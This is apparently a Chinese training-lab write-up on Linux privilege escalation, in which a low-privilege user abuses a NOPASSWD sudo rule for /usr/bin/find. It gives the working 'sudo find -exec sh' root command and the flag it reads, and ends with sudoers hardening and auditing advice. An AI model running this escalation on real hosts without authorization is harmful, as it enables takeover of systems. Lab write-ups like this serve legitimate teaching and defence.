







# 2-1 内网渗透与高级社工 · 权限提升维持（sudo find 提权读 /flag）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-权限提升维持-G1 |
| 分类 | 内网渗透 / Linux 本地提权（sudo 配置缺陷 + GTFOBins） |
| 题目描述 | 目标是一台 Linux 主机，已提供一个低权限账号 `player` 的立足点。请以该账号获取 root 权限并读取系统上的 flag 文件，完成「权限提升」验证。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台章节 | 实训平台课程 1639，章节 7253《内网渗透与高级社工-权限提升维持-G1》（平台地址与账号口令保存在本地 `.local/` 配置中，不入库） |
| 靶机入口 | Web 终端（ttyd）http://172.17.0.13:12213/ ，打开即已以 `player` 登录，无需额外输口令 |
| SSH | 172.17.0.13:12204（账号 `player`，密码未知；本次未使用，全程走 Web 终端） |
| 当前用户 | `player`，uid=1000，gid=1000 |
| 容器主机名 | `5fed82fb269d`（容器 ID 样式，与解题无关） |
| 操作方式 | 复用同一个 Web 终端持久会话逐条执行命令（脚本 `.local/process/ttyd_drive.py`，不入库）；本题未产生截图，本文以终端输出代码块记录过程 |
| 平台判分 | 本章节 5 题已在平台提交并全部判对：选择题 11085 C、11087 B、11089 D、11091 A、B、C，flag 题 11221 通过（选择题作答过程不在本文范围；判分依据见步骤 7） |

## 解题过程

### 1. 目标与环境：进入 Web 终端，确认题目要求

打开靶机入口 http://172.17.0.13:12213/ ，浏览器加载后直接进入一个 Web 终端界面，无需登录即已以 `player` 用户落在容器里（工作目录 `/`）。本次全程通过该 Web 终端操作（另有 SSH 端口 172.17.0.13:12204，未使用）。

题目要求：以低权限账号 `player` 立足，取得 root 权限并读取 flag，完成「权限提升」验证。

### 2. 立足确认：whoami / id / pwd

先确认当前身份与立足点，再决定后续动作：

```
$ whoami; id; pwd
player
uid=1000(player) gid=1000(player) groups=1000(player)
/
```

当前身份确为低权限 `player`（uid=1000，仅普通用户组），工作目录为 `/`，尚未获得任何提升。



### 3. 枚举 sudo 授权：sudo -l

提权的第一站是看当前用户被允许以什么身份运行哪些命令（先枚举、后利用）：

```
$ sudo -l
sudo: unable to resolve host 5fed82fb269d: Temporary failure in name resolution
Matching Defaults entries for player on 5fed82fb269d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User player may run the following commands on 5fed82fb269d:
    (root) NOPASSWD: /usr/bin/find
```

要点：

- 关键一行 `(root) NOPASSWD: /usr/bin/find`：`player` 被允许**免密**以 root 身份执行 `/usr/bin/find`。
- 开头 `unable to resolve host 5fed82fb269d` 是容器无法解析自身主机名的无害告警，不影响该授权判定。
- `find` 是 GTFOBins 收录的经典可滥用二进制：它的 `-exec` 参数会在 `find` 自身（此处即 root）的权限上下文中执行任意命令，配合 `sudo` 等价于 root 任意命令执行。



### 4. 失败尝试：直接读 /flag 被拒

在动手提权前先做对照实验，确认 flag 确实只对 root 可见：

```
$ cat /flag; ls -la /flag; whoami
cat: /flag: Permission denied
-rw------- 1 root root 38 Sep 19 15:08 /flag
player
```

`/flag` 权限为 `-rw-------`、属主 root，普通用户 `player` 直接读取被拒（Permission denied），且 `whoami` 仍是 `player`——验证了「必须提权后才能读」，也排除了硬读这条路。



### 5. 利用 sudo find 提权并读取 flag

按 GTFOBins 中 `find` + `sudo` 的标准形态构造 payload：让 `find` 找到一个必定存在的文件（`/etc/hostname`），`-maxdepth 0` 保证只匹配该文件本身、不做递归，再用 `-exec sh -c '...' \;` 在 root 上下文中执行命令；其中 `id` 用于验证身份确实已提升：

```
$ sudo find /etc/hostname -maxdepth 0 -exec sh -c 'id; cat /flag' \;
sudo: unable to resolve host 5fed82fb269d: Temporary failure in name resolution
uid=0(root) gid=0(root) groups=0(root)
vmc{A2zPyxU4KCxdh6XzEOLkZzI2hdSAiPE6}
```

- `sudo find` 以 root 运行，`-exec` 中的 `sh` 继承 root 上下文，`id` 输出 `uid=0(root)` 证实提权成功。
- 随后 `cat /flag` 顺利读出一开始被拒绝的 flag 文件。



### 6. 交叉验证：换一种姿势再读一次

为避免一次性手误，用 `sudo find` 的另一种最简形态复读 flag，并用 `sudo find` 执行 `whoami` 复核身份：

```
$ sudo find /flag -maxdepth 0 -exec cat {} \;; sudo find / -maxdepth 0 -exec whoami \;
vmc{A2zPyxU4KCxdh6XzEOLkZzI2hdSAiPE6}
root
```

两次独立读取结果完全一致，`whoami` 经 `sudo find` 执行也返回 root，提权链路确认无误。

### 7. 平台提交：答案格式踩坑与最终判分

（注：选择题作答不在本文范围；本节只记录平台提交环节的实测，失败尝试同样保留。）

首次提交时把答案按最直观的方式填写——选择题写纯字母、flag 题直接写 flag 字符串：

```
POST $VMC_BASE/api/student/submitAnswers
  sectionID=7253  contestMode=0
  answers={"questionID":11085,"answer":"C"}
  answers={"questionID":11087,"answer":"B"}
  answers={"questionID":11089,"answer":"D"}
  answers={"questionID":11091,"answer":"ABC"}
  answers={"questionID":11221,"answer":"vmc{A2zPyxU4KCxdh6XzEOLkZzI2hdSAiPE6}"}
```

接口返回 `code=0, msg=success`，但随后 `GET /api/student/get/answerHistory?sectionID=7253` 显示 5 题 `isCorrect` 全为 `false`：提交被记录，判分却全错；填空题甚至被平台规范化成空结构 `{"num":0,"answer":["",""]}`。

排查后确认：平台 `answers` 字段中每条 `answer` **必须是 JSON 字符串**，形如 `{"num":N,"answer":[...]}`（前端答案组件序列化后的形态），而不是纯字母或纯 flag。依据来自两处：已全对的旧章节（如 7245）历史提交里 `studentAnswer` 均为该结构，以及前端 JS（答案组件）在提交前执行 `JSON.stringify({num, answer})`。

按正确格式重交：

```
POST $VMC_BASE/api/student/submitAnswers
  sectionID=7253  contestMode=0
  answers={"questionID":11085,"answer":"{\"answer\":[\"C\"],\"num\":1}"}
  answers={"questionID":11087,"answer":"{\"answer\":[\"B\"],\"num\":1}"}
  answers={"questionID":11089,"answer":"{\"answer\":[\"D\"],\"num\":1}"}
  answers={"questionID":11091,"answer":"{\"answer\":[\"A\",\"B\",\"C\"],\"num\":3}"}
  answers={"questionID":11221,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{A2zPyxU4KCxdh6XzEOLkZzI2hdSAiPE6}\"]}"}
```

平台会把填空题存储规范化为 `["","true","vmc{...}"]`（第 2 个元素由平台写入 `true`，与旧章节 7245 / 7247 / 7249 的存储形态一致）。重交后 `answerHistory` 显示 5 题全部判对：

```
[{"order":1,"questionID":11085,"sectionID":7253,"isCorrect":true},
 {"order":2,"questionID":11087,"sectionID":7253,"isCorrect":true},
 {"order":3,"questionID":11089,"sectionID":7253,"isCorrect":true},
 {"order":4,"questionID":11091,"sectionID":7253,"isCorrect":true},
 {"order":5,"questionID":11221,"sectionID":7253,"isCorrect":true}]
```

旁证记录：首次（错误格式）提交后调用 `POST /api/student/selfJudge`（body `{"sectionID":7253,"questionID":11085,"contestMode":0}`）返回 `{"code":10105,"msg":"rate is less than 1"}`，与答案格式错误、判分未通过的状态对应；`GET /api/student/testPaper?sectionID=7253` 则始终返回 `{"code":10105,"msg":"answers are not allowed at this time"}`（教师未公布答案时不允许学生查看）。因此本章节判分的有效依据是 `answerHistory` 的 `isCorrect` 字段，7253 实测为 5/5。

### 8. 解题过程中的 AI 助教问答（截图 05–07）

围绕 sudo、GTFOBins 与权限加固，向课程教学问答平台（Qwen2.5）提了 3 个问题：

**问题 1：为什么 sudoers 放行 `/usr/bin/find` 等于放行任意命令执行？GTFOBins 收录程序有什么共同特征？**（截图 05）——确认 `find` 的 `-exec` 等参数可在调用者权限（此处为 root）下执行任意命令；GTFOBins 收录的都是「功能正常、但某些参数能执行外部命令/读写文件」的合法工具，放行它们等于放行代码执行。



**问题 2：sudoers 加固有哪些要点？**（截图 06）——最小权限、按用户/组限定、命令与完整路径限定、`env_reset`、保留日志审计并定期审查，避免「放行一个工具等于放行任意代码」。



**问题 3：文件权限与特权配置是什么关系？为什么「权限设对」仍会被提权？**（截图 07）——确认文件权限只是基础防线，`sudo`/SUID 等特权配置与其配置错误可以直接绕过它；防提权要同时管住「文件权限 + 特权面（sudo/SUID/capabilities）」。



## Flag

```
vmc{A2zPyxU4KCxdh6XzEOLkZzI2hdSAiPE6}
```

靶机 `/flag` 原文，步骤 5、6 两次独立读取一致；平台 flag 题 11221 判对。

## 总结与心得

### 漏洞原理

- 本题的权限边界被 **sudoers 配置错误**直接打破：`player` 被授予 `(root) NOPASSWD: /usr/bin/find`。`find` 本身不是 shell，但它的 `-exec`（以及 `-ok`）会在 `find` 进程的权限上下文中执行任意命令——「放行一个能执行外部命令的程序」实质上等于「放行任意代码执行」。这正是 GTFOBins 总结的一类风险：`find`、`python`、`perl`、`vim`、`less`、`awk` 等解释器/工具被误放行时，`sudo` 授权形同虚设。
- `NOPASSWD` 进一步免除了口令环节：攻击者拿到低权限会话即可静默完成提权，不依赖任何口令泄露。
- 本题一条 `sudo -l` → GTFOBins `find` 链路即完成提权读标（属「一次成功」），未用到 SUID、cron 等其他向量；但原理与实验手册 C080 所述一致——提权考察的是低权限用户如何借高权限上下文执行操作，读标记文件后用 `id` / `whoami` 确认身份。

### 做题方法

- **枚举优先，先看清再动手**：立足后先 `whoami` / `id` 确认身份，再 `sudo -l` 枚举授权面，而不是盲目猜口令或硬读文件。
- **读产物不猜答案**：flag 从靶机 `/flag` 真实读出，并做两次独立交叉验证；附件参考 WriteUp 中的 flag 为脱敏的 `vmc{xxxxxxxx}`，与本题实测结果无关。
- **失败尝试也是过程的一部分**：直接 `cat /flag` 被拒（Permission denied）说明常规读取不可行，为后续枚举提供了动机；平台首次「纯答案」提交全判错，则暴露了接口的格式要求——遇到「接口返回成功但结果不对」时，应回到接口契约本身查证（前端如何序列化、历史正确样例长什么样），而不是反复重交。
- **保留可验证证据**：关键命令与输出（`sudo -l` 的授权行、`id` 的 `uid=0`、两次一致的 flag、`answerHistory` 判分）全部留存，方便核验与后续整理。

### 修复建议

- **sudoers 最小权限**：只放行必要的、不具备逃逸能力的命令；能用固定参数包装脚本，就不要直接放行通用工具（如用参数受限的专用脚本替代裸 `find`，必要时配合 `Cmnd_Alias` 固定参数）。
- **禁止 NOPASSWD 放行解释器 / GTFOBins 类程序**：`find`、`sh`、`bash`、`python`、`perl`、`vim`、`less`、`awk` 等不应出现在免密授权中；确需放行的应要求口令并做参数白名单，降低静默提权风险。
- **定期审计 SUID 与 capabilities**：`find / -perm -4000 -type f 2>/dev/null` 与 `getcap -r / 2>/dev/null`，清理不必要的特权位。
- **监控特权进程**：对 `sudo`、SUID 程序的执行做日志审计（如 `auditd`），关注「普通用户 → root 子进程」的异常链；同时收紧 `/etc/sudoers` 与 `/etc/sudoers.d/` 的写权限。
- **敏感文件仅 root 可读是必要的，但不够**：本题 `/flag` 已设 `-rw-------`，仍挡不住配置缺陷带来的提权；防线应前移到「不制造可被滥用的特权配置」。
